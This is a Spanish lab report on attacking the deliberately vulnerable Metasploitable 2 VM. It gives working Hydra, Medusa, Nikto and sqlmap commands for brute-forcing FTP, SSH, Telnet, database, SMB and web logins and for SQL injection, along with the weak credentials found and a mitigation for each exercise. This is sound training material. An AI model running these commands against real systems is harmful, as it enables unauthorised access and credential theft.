Resumen del Laboratorio Metasploitable 2
Ejercicios realizados
1. Ataque FTP con Medusa
- Comando: medusa -h 192.168.56.103 -u msfadmin -P wordlist.txt -M ftp
- Evidencia: 
- Esperado: Encontrar credenciales débiles.
- Obtenido: Login Successful con usuario msfadmin.
- Mitigación: Deshabilitar FTP, usar SFTP, contraseñas robustas.

2. Ataque SSH con Medusa
- Comando: medusa -h 192.168.56.103 -u msfadmin -P wordlist.txt -M ssh
- Evidencia: 
- Esperado: Acceso remoto con credenciales débiles.
- Obtenido: Login Successful con usuario msfadmin.
- Mitigación: Usar claves SSH, limitar intentos, fail2ban.

3. Ataque Telnet con Hydra
- Comando: hydra -l msfadmin -P wordlist.txt 192.168.56.103 telnet
- Evidencia: 
- Esperado: Acceso remoto inseguro.
- Obtenido: Login Successful con usuario msfadmin.
- Mitigación: Deshabilitar Telnet, usar SSH.

4. Ataque MySQL con Medusa/Hydra
- Comando: medusa -h 192.168.56.103 -u root -P wordlist.txt -M mysql
- Comando: hydra -l root -P wordlist.txt 192.168.56.103 mysql
- Evidencia: 
- Evidencia: 
- Esperado: Acceso con root remoto.
- Obtenido: Fallo documentado (root no acepta conexiones remotas).
- Mitigación: Mantener bloqueado root remoto, usar usuarios limitados.

5. Ataque PostgreSQL con Hydra
- Comando: hydra -l postgres -P wordlist.txt 192.168.56.103 postgres
- Evidencia: 
- Esperado: Acceso con credenciales por defecto.
- Obtenido: Login Successful con usuario postgres y contraseña postgres.
- Mitigación: Cambiar credenciales por defecto, restringir accesos remotos.

6. Escaneo Web con Nikto
- Comando: nikto -h http://192.168.56.103
- Evidencia: 
- Esperado: Detectar vulnerabilidades en Apache/PHP.
- Obtenido: Directorios inseguros, aplicaciones vulnerables (DVWA, Mutillidae).
- Mitigación: Actualizar servidor, restringir directorios, WAF.

7. SQL Injection con SQLmap
- Comando: sqlmap -u "http://192.168.56.103/dvwa/vulnerabilities/sqli/?id=2&Submit=Submit" --cookie="PHPSESSID=XXX; security=low" -p id --level=5 --risk=3 --dbs
- Evidencia: 
- Esperado: Enumerar bases de datos.
- Obtenido: Bases listadas (dvwa, information_schema).
- Mitigación: Usar consultas parametrizadas, sanitizar entradas.

8. XSS en DVWA
- Payload: 
- Evidencia: 
- Esperado: Ejecutar código en navegador.
- Obtenido: Ventana emergente con mensaje XSS.
- Mitigación: Escapar entradas, CSP, validación en servidor.

9. Fuerza bruta Login DVWA con Hydra
- Comando: hydra -l admin -P wordlist.txt 192.168.56.103 http-post-form "/dvwa/login.php:username=&password=&Login=Login:Login failed"
- Evidencia: 
- Esperado: Encontrar contraseña débil.
- Obtenido: Login Successful con admin:password.
- Mitigación: Limitar intentos, MFA, contraseñas robustas.

10. Ataque SMB con Hydra/Medusa
- Comando: hydra -l msfadmin -P wordlist.txt 192.168.56.103 smb
- Comando: medusa -h 192.168.56.103 -u msfadmin -P wordlist.txt -M smbnt
- Evidencia: 
- Evidencia: 
- Esperado: Acceso compartido inseguro.
- Obtenido: Login Successful con msfadmin.
- Mitigación: Deshabilitar SMBv1, usar SMBv3, segmentar red.

✅ Conclusión
Este laboratorio muestra cómo servicios inseguros y aplicaciones web mal configuradas pueden ser explotados fácilmente con herramientas automatizadas (Medusa, Hydra, Nikto, SQLmap). También evidencia que configuraciones básicas (como bloquear accesos remotos de root) ofrecen protección. Documentar tanto los ataques exitosos como los fallidos brinda una visión realista de la seguridad en entornos de prueba.
